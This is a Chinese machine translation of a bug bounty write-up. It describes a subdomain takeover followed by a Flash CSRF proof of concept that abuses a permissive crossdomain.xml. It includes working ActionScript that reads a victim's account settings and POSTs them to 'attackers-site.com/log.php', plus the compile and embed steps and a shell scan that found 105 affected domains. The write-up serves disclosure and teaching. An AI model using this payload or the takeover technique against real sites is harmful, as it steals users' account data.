






# 绕过跨域政策，点击了数百个顶级 Alexa 网站

> 原文：<https://infosecwriteups.com/bypassing-crossdomain-policy-and-hit-hundreds-of-top-alexa-sites-af1944f6bbf5?source=collection_archive---------4----------------------->

嗯，距离我上次写文章已经有很长一段时间了，所以我觉得有必要与社区分享一下我在 h1 bug bounty 程序中发现的这个有趣的 bug。从现在起我们可以称之为[redacted.com]来维护他的隐私。

**做侦察:**



一个通配符域名引起了我的注意，比如:*.trusted.com

所以接下来的事情是运行**子列表**来查看*.trusted.com 上的子域名



(我可以透露子域，因为还没有打补丁)

我发现了一个类似“x.media.trusted.com”的子域，这个站点指向 fastly 实例，而 fastly 实例又指向一个云前端实例:我是怎么知道的？因为我有“绝地能力”和对原力的信任..(诡异不？).



我试图从云前端获得该域名，令我惊讶的是，这是一个正确的操作:)。因此..我在 x.media.trusted.com 有一个成功的**【域名接管】【T5:)**



(收购方的 poc 链接)

但是这个“可信的”站点没有 bbp，所以接管将用于在主 BBP[redacted.com]上创建可能的 CSRF，因为在他的 crossdomain.xml 文件上允许。(是的，我知道你知道，但是我喜欢一遍又一遍地重复..)

**创建令人惊叹的 CSRF Flash 请求:**

那么我们现在需要什么？一个 flash 文件，它充当 CSRF 并创建一个请求来窃取[redacted.com]上的用户登录数据

首先，我们创建动作脚本文件，如下所示:

// ak1t4-poc.as

```
package {import flash.display.Sprite;import flash.events.*;import flash.net.URLRequestMethod;import flash.net.URLRequest;import flash.net.URLLoader;public class ak1t4-poc extends Sprite {public function ak1t4-poc() {**// Target URL from where the data is to be retrieved**var readFrom:String = “https://[redacted-com]/account/v3/settings";var readRequest:URLRequest = new URLRequest(readFrom);var getLoader:URLLoader = new URLLoader();getLoader.addEventListener(Event.COMPLETE, eventHandler);try {getLoader.load(readRequest);} catch (error:Error) {trace(“Error loading URL: “ + error);}}private function eventHandler(event:Event):void {**// URL to which retrieved data is to be sent**var sendTo:String = “https://attackers-site.com/log.php"var sendRequest:URLRequest = new URLRequest(sendTo);sendRequest.method = URLRequestMethod.POST;var body:String = escape(event.target.data);sendRequest.data = body;var sendLoader:URLLoader = new URLLoader();try {sendLoader.load(sendRequest);} catch (error:Error) {trace(“Error loading URL: “ + error);}}}}
```

**编译牛逼的 SWF:**

```
/opt/flex/bin/mxmlc /Users/Desktop/ak1t4/ak1t4-poc.as — output exploit.swf
```

现在我们嵌入了。swf 文件转换为 html

//exp.html

```
<html><object type=”application/x-shockwave-flash” data=”exploit.swf” width=”1" height=”1"><param name=”movie” value=”exploit.swf” /></object></html>
```

现在，我们将漏洞上传到子域接管:“https://x . media . trusted . com/exp . html”

**我们已经准备好了我们的 CSRF，我觉得:**


**测试 CSRF:**


我们这里有一些有趣的东西:

1.  截图中的 csrf 文件名为“xoxo.html ”,是受害者打开的。
2.  嵌入 evil.swf 文件，该文件使用/profile/ endpoint 响应 200 OK 向记录的受害者用户数据 url 发出请求
3.  最后，向存储在 attackers-site.com/log.php 上的 log.php 文件发送一个很棒的 POST 请求，他用所有检索到的数据创建了一个 stealdata.txt 文件。



**此时，我们成功地进行了一次 CSRF 闪存攻击，我们的服务器上记录了用户的数据:)**


> **THE-END？？**

当然不是，这个故事继续下去，变得越来越好…

**绝地回忆:**

所有这些关于跨域策略的场景直接冲击了我的大脑，提醒我缺少了一些东西..

我接手的 **trusted.domain** 从一开始就很熟悉，所以我记得我顺便看过一份白皮书，其中提到这个域名在许多其他重要网站中显示为“可信”..所以我的好奇心带我到更深的层次继续我的研究..

**下载数据:**

我做的第一件事是在我的硬盘上下载前 1000 个 alexa 网站，然后我抓取所有域，查看哪些域在使用*.trusted.com 作为他们的 crossdomain.xml 文件上的 allow。

> **天网-localhost:crossdoamin ak1t 4 _ hax 0r $**一边读-r 线；do cat $ line | fgrep trusted . domain；完成<交叉列表| wc -l
> 
> 105



哇！令我惊讶的是，我得到了一个不错的数字:“105**”**个域名受到我的 CSRF 漏洞攻击的影响。(也许我们在 Alexa top 10.000 中有更多条目:)

(我们现在需要知道，受影响的域应该有一些有趣的东西可以窃取:如用户帐户数据、敏感信息等)

我们手里有 105 个域名受到 alexa 顶级网站的影响，这些网站目前处于“安全”模式:)

**恐惧——愤怒——憎恨:**


这个故事以“x.media.trusted.com”域的部分修复和我收到来自亚马逊的一个糟糕的:**“暂停帐户”**结束，因为似乎他们(trusted.domain)对我在 POC 中使用的 aws 帐户上托管的文件进行了**投诉**:(

*这个记得我的东西好像是**智者“尤达”说的:**


**原力强大的一方:**

因此；h1 日我从 BBP 收到了一笔**丰厚的奖金$$$** 用于这份 CSRF 报告和概念验证；现在我们又开心了；而且肯定地说:更安全了:)


[特别感谢这些**绝地大师**他们开启了我的心灵，让我了解了他们令人敬畏的课程]

*   https://twitter.com/h1_sp1d3r(感谢你分享的令人敬畏的知识，感谢你令人惊叹的文章，这些文章给我留下了深刻的印象，让我的思维更上一层楼)
*   亚辛·阿布基尔[https://twitter.com/Yassineaboukir](https://twitter.com/Yassineaboukir)(时间在流逝，但你仍然是我一年前在这个疯狂的虫类赏金世界里遇到的那个令人敬畏的家伙，今天，我要感谢你的好意和分享的知识:我非常感激:)
*   https://twitter.com/ArbazKiraak(一个有着不可思议的头脑的年轻人，他分享他的知识并改善了我们的社区，继续你令人敬畏的工作，一次又一次地感谢你的来信，因为我比昨天有了更多的知识和对事物的理解，我们的社区也变得更好了，谢谢你，伙计！！)

> 愿原力与你同在，年轻的学徒！

**黑客快乐！:)**

记住:如果你失败了？再努力点！

@ak1t4

[](https://hackerone.com/ak1t4) [## HackerOne 简介- ak1t4

### 怀特 4t Hack3r &禅宗和尚&赏金猎人-https://twitter.com/knowledge_2014

hackerone.com](https://hackerone.com/ak1t4) [](https://twitter.com/knowledge_2014) [## ak1t4 z3n (@knowledge_2014) |推特

### ak1t4 z3n 的最新推文(@knowledge_2014)。Bug 赏金猎人- HoF:谷歌- Mozilla - PayPal -微软…

twitter.com](https://twitter.com/knowledge_2014)